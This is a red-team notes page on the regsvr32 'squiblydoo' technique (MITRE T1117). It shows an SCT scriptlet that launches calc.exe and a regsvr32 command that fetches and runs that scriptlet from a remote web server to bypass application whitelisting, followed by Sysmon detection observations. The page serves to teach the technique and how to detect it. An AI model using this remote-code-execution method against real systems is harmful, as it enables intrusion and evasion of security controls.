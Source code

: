 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" caption="" %}

